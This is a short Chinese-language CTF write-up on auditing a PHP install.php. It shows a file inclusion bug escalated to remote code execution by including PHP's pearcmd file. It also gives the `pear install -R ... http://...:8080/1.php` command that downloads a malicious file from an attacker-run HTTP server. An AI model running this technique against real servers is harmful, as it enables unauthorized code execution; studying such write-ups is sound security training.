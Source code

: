 由于题目环境的原因：`config.inc.php` 文件是无法创建的！

代码审计：

看`install.php`

就发现一处包含点！

![image-20211024154513283](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025090405.png)

我们可以通过控制config参数和adapter参数来控制 变量`$type`。 就可以任意文件包含（但是限制文件后缀是php）！

![image-20211025090050730](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025090050.png)

那现在思路很明确了！

就找一个可以利用的php文件就行了！

查阅质料发现：可以包含php环境自带的pearcmd文件

然后通过`pear install -R /tmp http://127.0.0.1:8080/1.php` 命令下载恶意文件到服务器，实现RCE！



### 测试

1 在服务器上使用python一句话开启http服务器:`python -m SimpleHTTPServer 8080`

2 通过`pear install -R /var/www/html http://0.0.0.0:8080/1.php` 命令下载恶意文件到服务器，实现RCE！

![image-20211025092047054](https://gitee.com/taochiyu/blogimage/raw/master/img/20211026131224.png)

3 读取FLAG

![image-20211025092146390](https://gitee.com/taochiyu/blogimage/raw/master/img/20211026131224.png)







`https://blog.csdn.net/qq_17758359/article/details/114295123`

![image-20211026131002633](https://gitee.com/taochiyu/blogimage/raw/master/img/20211026131224.png)



![](https://gitee.com/taochiyu/blogimage/raw/master/img/20211026131224.png)





# 总结：

和师傅们一起玩的很开心！有大师傅MoonBack带带，玩的很开心！😀😀😀

